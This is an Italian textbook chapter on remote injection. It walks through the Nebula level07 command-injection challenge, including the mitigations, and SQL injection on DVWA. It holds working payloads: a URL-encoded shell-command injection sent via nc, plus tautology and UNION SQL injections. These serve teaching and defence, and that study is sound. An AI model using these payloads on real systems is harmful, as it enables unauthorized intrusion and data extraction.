\chapter{Iniezione remota}
L'iniezione remota, come fa presagire il termine, avviene mediante un vettore di attacco remoto. È caratterizzata dalla presenza di due asset: un asset client che invia richieste e un asset server che riceve richieste, elabora e invia risposte. I dati delle richieste e delle risposte sono trasmessi tramite protocollo TCP/IP (quasi sempre TCP/IPv4). I dati delle richieste contengono iniezioni per un specifico linguaggio, ad esempio shell e SQL. I dati delle richieste sono ricevuti tramite un protocollo applicativo e inoltrati ad altri asset tramite un altro protocollo applicativo. 

\section{Nebula Level 07}
\textit{"The flag07 user was writing his very first
Perl program that allowed him to ping hosts
to see if they were reachable from the Web
server."}

Lo script in questione si chiama \texttt{index.cgi} e ha il seguente percorso: \texttt{/home/flag07/index.cgi}. Come al solito l'obiettivo della sfida è l'esecuzione del programma \texttt{/bin/getflag} con i privilegi dell'utente \texttt{flag07}. Costruiamo un albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap6/6.1.png}
\end{figure}
\FloatBarrier

L'utente \texttt{level07} può accedere solamente alle directory \texttt{/home/level07} e \texttt{/home/flag07}. La prima non contiene materiale interessante, mentre la seconda contiene file di configurazione di bash e altri due file molto interessanti: \textbf{index.cgi} e \texttt{thttpd.conf}. Visualizziamo i metadati di \texttt{index.cgi}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -l /home/flag07/index.cgi
-rwxr-xr-x 1 root root ... /home/flag07/index.cgi
\end{lstlisting}
\end{mdframed}

Il file è leggibili ed eseguibile da tutti gli utenti e modificabile solo da root, inoltre non è SETUID. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{index.cgi}
\begin{minted}[baselinestretch=1.0]{perl}
#!/usr/bin/perl
use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
   $host = $_[0];
   print("<html><head><title>Ping results</title></head><body><pre>");
   @output = `ping -c 3 $host 2>&1`;
   foreach $line (@output) { 
      print "$line"; 
   }
   print("</pre></body></html>");
}

# check if Host set. if not, display normal page, etc
ping(param("Host"));
\end{minted}
\end{mdframed}

L'interprete dello script è il file binario eseguibile \texttt{/usr/bin/perl}, ossia l'interprete Perl. Importa il modulo \texttt{CGI.pm}, contenente le funzioni d aiuto nella scrittura di uno script CGI. Il modulo CGI effettua il parsing dell'input e rende disponibile ogni valore attraverso la funzione \texttt{param()}. Stampa su STDOUT l'instestazione HTTP "content-type", che definisce il tipo di documento servito (HTML). \texttt{sub ping\{...\}} definisce la funzione ping, mentre la variabile \texttt{\$host} riceve il valore del primo parametro della funzione. Poi stampa l'intestazione HTML della pagina. L'array "output" riceve tutte le righe dell'output del comando successivo e per ogni linea di output stampa quella linea. Poi stampa i tag di chiusura della pagina HTML. Infine invoca la funzione \texttt{ping} con argomento pari al valore del parametro "Host" della query string HTTP. 

Lo script \texttt{index.cgi} riceve input da un argomento \texttt{Host=IP} (se invocato tramite linea di comando) oppure da una richiesta \texttt{GET /index.cgi?Host=IP} se invocato tramite un server Web. Poi crea uno scheletro di pagina HTML, esegue il comando \texttt{ping -c 3 IP 2>\&1} che invia 3 pacchetti \texttt{ICMP ECHO\_REQUEST} all'host il cui indirizzo è IP (e redirige eventuali errore su STDOUT). Inserisce poi l'output nella pagina HTML. Eseguiamo lo script in locale tramite il passaggio diretto dell'argomento \texttt{HOST=IP}: autentichiamoci come utente \texttt{level07} e digitiamo \texttt{/home/flag07/index.cgi Host=8.8.8.8} (DNS pubblico di Google che funziona sempre).

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag07/index.cgi Host=8.8.8.8
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}
Se ci autentichiamo come utente \texttt{level07} e proviamo ad invocare:
\begin{center}
    \texttt{/home/flag07/index.cgi Host=8.8.8.8; /bin/getflag}
\end{center}
viene eseguito anche \texttt{/bin/getflag}, ma non con i privilegi di \texttt{flag07}. Notiamo che questo comando che abbiamo appena dato provoca l'esecuzione sequenziale di due comandi da parte dell'interprete BASH: \texttt{index.cgi} con argomento pari a \texttt{Host=8.8.8.8} e \texttt{/bin/getflag}. Non si tratta di iniezione locale: infatti un'iniezione locale sarebbe del tipo:
\begin{center}
    \texttt{/home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"}
\end{center}
Se invochiamo questo comando \texttt{getflag} sembra che non venga manco eseguito. Per capire cosa non ha funzionato bisogna approfondire la conoscenza di \texttt{param()}. Leggendo la\ documentazione\footnote{\href{https://metacpan.org/pod/CGI\#Calling-CGI.pm-routines}{https://metacpan.org/pod/CGI\#Calling-CGI.pm-routines}} scopriamo una cosa interessante:

\vspace{5mm}

\textit{"Pass the \texttt{param()} method a single argument
to fetch the value of the named parameter.
When calling \texttt{param()} if the parameter is
multivalued, you can ask to receive an array.
Otherwise the method will return
the first value."
}

\vspace{5mm}

Nel comando \texttt{/home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"} l'argomento contiene un riferimento a due parametri, tuttavia lo script \texttt{index.cgi} estrae solo il valore di \texttt{Host} e lo assegna alla variabile \texttt{\$host}, quindi \texttt{/bin/getflag} non viene iniettato. Leggendo la documentazione scopriamo anche un'altra cosa interessante:

\vspace{5mm}

\textit{"WARNING:
calling \texttt{param()} in list context can lead to
vulnerabilities if you do not sanitise user input
as it is possible to inject other param keys
and values into your code.. ."}

\vspace{5mm}

Nel comando che abbiamo digitato sono stati usati due caratteri speciali, ovvero \texttt{;} per delimitare i campi e \texttt{/} per separare le directory. Leggiamo la definizione dei caratteri speciali negli URL\footnote{\href{https://tools.ietf.org/html/rfc3986.html}{https://tools.ietf.org/html/rfc3986.html}}. La procedura di escape dei caratteri speciali in un URL prende il nome di \textbf{URL encoding}. Dato il carattere speciale, si individua il suo codice ASCII, lo si scrive in esadecimale e gli si prende il carattere di escape (\%).

\begin{table}[htbp!]
\centering
\begin{tabular}{|l|l|l|} 
\hline
\textbf{Carattere}                   & ;    & /     \\ 
\hline
\textbf{Codice ASCII in base 10}     & 59   & 47    \\ 
\hline
\textbf{Codice ASCII in esadecimale} & 3B   & 2F    \\ 
\hline
\textbf{Codifica URL encoded}        & \%3B & \%2F  \\
\hline
\end{tabular}
\end{table}
\FloatBarrier

L'input corretto da inviare allo script \texttt{index.cgi} prevede l'URL encoding dei caratteri speciali. Tentiamo nuovamente l'attacco digitando il comando a cui è stato fatto l'escape dei caratteri:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag07/index.cgi "Host=8.8.8.8%3B%2Fbin%2Fgetflag"
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

L'iniezione locale non ha l'effetto sperato. Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap6/6.2.png}
\end{figure}
\FloatBarrier

L'iniezione locale ha funzionato, ma \texttt{index.cgi} non ha i privilegi di esecuzione di \texttt{flag07}. È possibile un'iniezione remota con lo stesso input dell'iniezione locale? Bisogna identificare un server web che esegua \texttt{index.cgi} SETUID \texttt{flag07}. Se un server di questo tipo esiste, l'input appena usato permette l'esecuzione di \texttt{/bin/getflag} con i privilegi di \texttt{flag07}, vincendo così la sfida.

Visualizziamo i metadati di \texttt{thttpd.conf}:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -l /home/flag07/thttpd.conf
-rw-r-r-- 1 root root ... /home/flag07/thttpd.conf
\end{lstlisting}
\end{mdframed}
Il file \texttt{thttpd.conf} è leggibile da tutti gli utenti e modificabile solo da root. Identifica il server web sotto cui esegue \texttt{index.cgi}. Dalla lettura di \texttt{thttpd.conf} otteniamo queste informazioni:
\begin{itemize}
    \item \texttt{port=7007}: il server web \texttt{thttpd} ascolta sulla porta 7007 
    \item \texttt{dir=/home/flag07}: la directory radice del server web è \texttt{/home/flag07} 
    \item \texttt{nochroot}: il server web vede l'intero file system dell'host
    \item \texttt{user=flag07}: il server web esegue con i diritti dell'utente dell'utente \texttt{flag07}
\end{itemize}
Si può contattare il server web sulla porta TCP 7007 (vettore di accesso remoto). Il server web vede l'intero file system, quindi anche il file eseguibile \texttt{/bin/getflag}. Inoltre esegue come utente \texttt{flag07}, il che permette a \textbf{/bin/getflag} l'esecuzione con successo. Per poter effettuare l'iniezione remota, verifichiamo che il server web \texttt{thttpd} sia effettivamente in esecuzione sulla porta 7007:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ pgrep -l httpd
803 thttpd
806 thttpd
$ netstat -ntl | grep 7007
tcp6      0     0   :::7007    :::*    LISTEN
\end{lstlisting}
\end{mdframed}
Quindi esistono processi di nome \texttt{httpd}, c'è un processo che ascolta sulla porta TCP 7007, e inoltre c'è da notare che troveremo il server web sulla porta 7007 solo se non sarà trascorso troppo tempo dall'avvio di Nebula. In ogni caso da queste informazioni deduciamo che c'è un processo in ascolto sulla porta 7007, ma non vi è una prova del fatto che il processo in ascolto sia proprio \texttt{httpd}. Per verificare che il processo in ascolto su questa porta sia proprio \texttt{httpd} servono i privilegi di root: l'opzione \texttt{-p} di \texttt{netstat} stampa il PID e il nome del processo server in ascolto sulla porta. Ma l'utente attaccante non ha i privilegi di root, quindi non può usare questo comando. È necessario interagire direttamente con il server web per avere la certezza che il processo in ascolto sulla porta 7007 sia proprio \texttt{httpd}. È possibile inviare richieste al server (e ricevere le relative risposte) tramite il comando \texttt{nc <hostname> <port>}. Leggiamo il manuale per i dettagli con \texttt{man nc}. L'hostname da usare è uno qualunque su cui ascolta il server. Dal precedente output di \texttt{netstat} si evince che \texttt{thttpd} ascolta su tutte le interfacce di rete (\texttt{:::}). Quindi vanno bene nomi associati a questi IP: 127.0.0.1 (localhost) oppure l'IP assegnato all'interfaccia di rete. Proviamo:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET / HTTP/1.0

HTTP/1.0 403 Forbidden
Server: thttpd/2.25b 29dec2003
...
\end{lstlisting}
\end{mdframed}
L'accesso a \texttt{/} è proibito, ma scopriamo che il server è effettivamente \texttt{httpd}. Connettiamoci allora al server e invochiamo lo script con input URL encoded, vincendo la sfida:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
You have successfully executed getflag on a target account
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

\subsection{La vulnerabilità}
Anche qui la vulnerabilità appena vista si verifica solo se diverse debolezze sono presenti e sfruttate contemporaneamente.

\subsubsection{Debolezza 1}
Il web server \texttt{httpd} esegue con privilegi di esecuzione ingiustamente elevati (quelli dell'utente privilegiato \texttt{flag07}). La CWE di riferimento è la \textbf{CWE-250 - Execution with Unnecessary Privileges}. 

\subsubsection{Debolezza 2}
Se un'applicazione web che esegue comandi non neutralizza i caratteri speciali è possibile iniettare nuovi caratteri in cascata ai precedenti. La CWE di riferimento è la \textbf{CWE-78 - Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)}.

\subsection{Mitigazione 1}
Possiamo riconfigurare \texttt{thttpd} in modo che esegua con privilegi di un utente inferiore, ad esempio \texttt{level07}. Innanzitutto verifichiamo che il file \texttt{/home/flag07/thttpd.conf} sia quello effettivamente usato dal server web:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ps ax | grep thttpd
...
803 ? Ss 0:00 /usr/sbin/thttpd -C /home/flag07/thttpd.conf
\end{lstlisting}
\end{mdframed}

Creiamo una nuova configurazione nella home directory dell'utente \texttt{level07}: diventiamo root tramite l'utente \texttt{nebula}. Copiamo \texttt{/home/flag07/thttpd.conf} nella home directory di \texttt{level07}:
\begin{center}
    \texttt{cp /home/flag07/thttpd.conf /home/level07}
\end{center}
Aggiorniamo poi i permessi dei file:
\begin{center}
    \texttt{chown level07:level07 /home/level07/thttpd.conf}
    
    \texttt{chmod 644 /home/level07/thttpd.conf}
\end{center}

Editiamo il file \texttt{thttpd.conf}, impostando una porta di ascolto TCP non in uso, ad esempio la 7008, dopodiché impostiamo la directory radice del server con \texttt{dir=/home/level07} e infine impostiamo l'esecuzione come utente \texttt{level07}, con \texttt{user=level07}. Copiamo poi \texttt{/home/flag07/index.cgi} nella home directory di \texttt{level07}:
\begin{center}
    \texttt{cp /home/flag07/index.cgi /home/level07}
\end{center}
e poi aggiorniamo i permessi dello script:
\begin{center}
    \texttt{chown level07:level07 /home/level07/index.cgi}
    
    \texttt{chmod 0755 /home/level07/index.cgi}
\end{center}
Eseguiamo poi manualmente una nuova istanza del server:  \texttt{thttpd -C /home/level07/thttpd.conf}. A questo punto ripetiamo l'attacco sul server web appena avviato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7008
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}
Osserviamo che \texttt{/bin/getflag} non riceve più i privilegi di \texttt{flag07}.

\subsection{Mitigazione 2}
Possiamo implementare nello script Perl un filtro dell'input basato su blacklist: se l'input non ha la forma di un indirizzo IP viene scartato silenziosamente. La strategia basata su whitelist è differente: se l'input è uno di N noti viene accettato, altrimenti viene scartato. Il nuovo script \texttt{index-bl.cgi} esegue le seguenti operazioni:
\begin{itemize}
    \item memorizza il parametro \texttt{Host} un una variabile \texttt{\$host}
    \item fa il match di \texttt{\$host} con un'espressione regolare che rappresenta un indirizzo IP
    \item controlla se \texttt{\$host} verifica l'espressione regolare: se sì, esegue \texttt{ping}, altrimenti non esegue nulla.
\end{itemize}
Un'espressione regolare Perl per il match di indirizzi IP è la seguente:
\begin{center}
    \begin{lstlisting}
    ^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$
    \end{lstlisting}
\end{center}
L'espressione regolare è semplice ma non precisa, infatti l'input 999.999.999.999 viene accettato anche se non corrisponde ad un indirizzo IP. È possibile sfruttare il difetto del filtro per iniettare comandi? Sembra di no, perché il filtro stronca ogni input con struttura diversa da un indirizzo IP. Quindi il carattere speciale "\texttt{;}" usato per iniettare comandi di shell viene ignorato.

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{index-bl.cgi}
\begin{minted}[baselinestretch=1.0]{perl}
#!/usr/bin/perl use
CGI qw{param};

print "Content-type:
text/html\n\n";

sub ping {
   ...
}
# check if Host set. if not, display normal page, etc
my $host = param("Host");
if ($host =~ /^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\$/)
{ 
   ping($host);
}
\end{minted}
\end{mdframed}

Apriamo un altro terminale e ripetiamo l'attacco sul server web appena avviato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET /index-bl.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

$
\end{lstlisting}
\end{mdframed}
Osserviamo che \texttt{/bin/getflag} non viene più eseguito.


\section{Damn Vulnerable Web Application}
DVWA è scaricabile sottoforma di archivio zip o di macchina virtuale. Scarichiamo l'immagine ISO DVWA-1.0.7.iso e importiamola in VirtualBox. Prima di avviare DVWA, da \textit{Impostazioni > Rete} impostiamo la connessione a !Scheda con bridge"; Wi-Fi. Dopo aver avviato DVWA, ricaviamo il suo IP tramite il comando \texttt{ifconfig}. I servizi vulnerabili di DVWA sono acceduti tramite un'altra macchina attaccante, che deve avere un browser web e un emulatore terminale. Impostiamo per la macchina attaccante la stessa configurazione di rete usata per DVWA (scheda con bridge). Successivamente usiamo il browser della macchina attaccante per connetterci al server wev di DVWA:: digitiamo \href{http://DVWA-IP/login.php}{http://DVWA-IP/login.php}, dive DVWA-IP indica l'IP della macchina virtuale DVWA. Veniamo rediretti alla pagina di login di DVWA, a cui si accede tramite le credenziali \texttt{admin} e \textbf{password}. La pagina iniziale di DVWA contiene informazioni, puntatori alle pagine vulnerabili e meccanismi di difesa. Offre poi tre livelli di difesa nei suoi script, selezionabili cliccando su "Script Security" (Low, Medium, High). Per il momento scegliamo Low. DVWA offre anche un sistema di rilevazione delle intrusioni scritto in PHP (PHPIDS), che monitora le richieste e crea dei file di log. Disabilitiamolo. Selezioniamo poi il bottone \textit{SQL Injection} e otteniamo una pagina web con un form di input "User ID". Uno script elabora l'input, lo usa in una query SQL e stampa la risposta. 

\section{SQL Injection}

L'obiettivo della sfida è iniettare comandi SQL arbitrari tramite il form HTML. Come nelle sfide precedenti, stiliamo una checklist di operazioni da svolgere per costruire il nostro attacco. 

Iniziamo ad inviare al server una richiesta legittima ed analizziamone la risposta. L'obiettivo è approfondire la conoscenza del servizio invocato. Dopodiché inviamo al server una richiesta maliziosa e ne analizziamo la risposta. L'obiettivo è ottenere dalla risposta del server informazioni di aiuto per la costruzione di un attacco. Reazioni tipiche sono crash, messaggi di errore, indicazioni di un possibile punto di iniezione, ecc. L'invio di richieste anomale effettuato con l'obiettivo di scoprire malfunzionamenti nel programma si chiama fuzz testing. La costruzione di un attacco è sempre preceduta da una procedura di fuzz testing. Alcuni esempi:
\begin{itemize}
    \item si immette un input che risulta in una richiesta sintatticamente non corretta: l'obiettivo è provocare un messaggio di errore da parte del server e recuperare ulteriori informazioni utili per la costruzione di un attacco;
    \item si immette un input che risulta in una richiesta semanticamente non corretta: l'obiettivo è lo stesso di prima;
    \item si immette un input contenente un'espressione che risulta in una richiesta sintatticamente e semanticamente corretta: l'obiettivo è capire se lo script eseguito dal server web interpreta l'input ai fini dell'esecuzione di codice arbitrario.
\end{itemize}
Se non si è ancora sfruttata la vulnerabilità, si usa l'informazione ottenuta per costruire una nuova domanda, altrimenti il compito può dirsi svolto. Ad esempio immettiamo l'input seguente nel form: \texttt{"User ID": 1}. Tale input è sia sintatticamente che semanticamente corretto, quindi ci aspettiamo una risposta corretta. Analizziamo la risposta ottenuta:
\begin{lstlisting}
ID: 1
First name: admin
Surname: admin
\end{lstlisting}
Diventa quindi chiaro il formato di una risposta corretta, e quindi l'attaccante è in grado di distinguere una risposta corretta da una non corretta. Proviamo ora il seguente input: \texttt{"User ID": -1}. Quest'input è sintatticamente corretto ma semanticamente scorretto. Osserviamo che otteniamo una risposta nulla. Diventa quindi chiaro il formato di una risposta ad un valore intero "fuori scala". L'attaccante è in grado di individuare i valori interi validi: ovvero numeri interi e presenti nel DB. Proviamo ancora con un input diverso: \texttt{"User ID": stringa}. Quest'input è sintatticamente corretto ma semanticamente scorretto. Anche in questo caso otteniamo una risposta nulla, quindi diventa chiaro il formato di una risposta ad un valore di tipo diverso. Proviamo l'input \texttt{"User ID": 1.0}. Questo input è sia sintatticamente che semanticamente corretto. Otteniamo:

\begin{lstlisting}
ID: 1.0
First name: admin
Surname: admin
\end{lstlisting}

L'applicazione sembra stampare direttamente l'input numerico (se valido) e convertire un argomento double in intero. Notiamo che in questo caso c'è riflessione dell'input. Infatti l'input dell'utente è incluso senza alcun filtro nella risposta del server. Proviamo ora con l'input \texttt{"User ID": 2-1}. Tale input è sia sintatticamente che semanticamente corretto. La risposta ottenuta è:

\begin{lstlisting}
ID: 2
First name: Gordon
Surname: Brown
\end{lstlisting}

L'applicazione sembra riflettere l'input numerico (se valido) ed estrarre la parte numerica "2" e convertirla in un intero. Immettiamo l'input seguente nel form: \texttt{"User ID": stringa'}. Tale input è sia sintatticamente che semanticamente scorretto. La risposta che otteniamo è:
\begin{lstlisting}
You have an error in your SQL syntax;
check the manual that corresponds to your
MySQL server version for the right syntax
to use near "stringa'" at line 1
\end{lstlisting}
Le informazioni che otteniamo è che il server SQL è MySQL, l'errore è sul parametro e avviene alla riga 1. Il formato della query eseguita dallo script sembra essere simile al seguente:
\begin{lstlisting}
SELECT f1, f2, f3
FROM table
WHERE f1 ='v1';
\end{lstlisting}

Il server MySQL converte \texttt{v1} in un intero e preleva la riga corrispondente di \texttt{table}. Proviamo ad iniettare un input che trasformi la query SQL in un'altra in grado di stampare tutte le righe della tabella. Il server SQL stampa tutte le righe della tabella se e solo se una clausola \texttt{WHERE} risultante dall'iniezione è sempre vera. L'esempio più classico è il seguente:
\begin{lstlisting}
SELECT f1, f2, f3
FROM table
WHERE f1 ='v1' OR '1'='1';
\end{lstlisting}
Possiamo allora iniettare una tautologia usando l'input \texttt{"User ID": 1' OR '1'='1}

Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.8 \textwidth]{./Images/cap6/6.3.png}
\end{figure}
\FloatBarrier

Usando questa query viene stampata l'intera tabella degli utenti:
\begin{lstlisting}
ID: 1' or '1'='1
First name: admin
Surname: admin

ID: 1' or '1'='1
First name: Gordon
Surname: Brown

ID: 1' or '1'='1
First name: Hack
Surname: Me

ID: 1' or '1'='1
First name: Pablo
Surname: Picasso

\end{lstlisting}

Gli argomenti della query sono stati scritti tra apici singoli, stando attenti a bilanciare l'apice singolo iniziale e finale. È possibile semplificare l'iniezione mediante l'utilizzo di caratteri di commento (\#, --).

L'iniezione SQL basata su tautologia presenta diverse limitazioni:
\begin{itemize}
    \item non permette di dedurre la struttura di unq query SQL (campi selezionati e tipo dei campi)
    \item non permette di selezionare altri campi rispetto a quelli presenti nella query SQL
    \item non permette di eseguire comandi SQL arbitrari.
\end{itemize}
L'operatore \texttt{UNION} unisce l'output di più query SQL omogenee. Proviamo ad iniettare un input che trasformi la query SQL in una query UNION. La prima query SQL è quella dello script, la seconda è fornita dall'attaccante. Affinché le query SQL UNION risultato dell'iniezione funzioni, è necessario capire la struttura della tabella selezionata dallo script: numero di colonne e tipi di dato devono combaciare. Immettiamo l'input seguente nel form: \texttt{"User ID":1' UNION select 1\#}. Ciò provoca l'iniezione della nostra query in cascata a quello dello script. La risposta che otteniamo è:
\begin{lstlisting}
The used SELECT statements have a
different number of columns
\end{lstlisting}
Il numero di colonne nelle due query SQL è diverso, quindi la query eseguita dallo script non recupera solo un campo. Immettiamo allora il seguente input:
\texttt{"User ID":1' UNION select 1, 2\#}. Viene stampato l'output delle due query in sequenza:
\begin{lstlisting}
ID: 1' union select 1, 2#
First name: admin
Surname: admin

ID: 1' union select 1, 2#
First name: 1
Surname: 2
\end{lstlisting}

Abbiamo scoperto che la query SQL effettuata dall'applicazione seleziona due campi. Basandoci sull'output HTML ipotizziamo che si tratti di un nome e di un cognome. Proviamo ad iniettare all'interno della UNION un'interrogazione alle funzionalità di sistema offerte da MySQL. All'URL seguente è presente un elenco di query MySQL molto interessanti da questo punto di vista\footnote{\href{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}{http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet}}.

\vspace{5mm}

La funzione MySQL \texttt{version()} stampa il numero di versione del server MySQL in esecuzione. Proviamo ad iniettare \texttt{version()} in una UNION tramite l'input seguente:
\texttt{1' UNION select 1, version()\#}. Otteniamo la seguente risposta:
\begin{lstlisting}
ID: 1' union select 1, version()#
First name: admin
Surname: admin

ID: 1' union select 1, version()#
First name: 1
Surname: 5.1.41
\end{lstlisting}
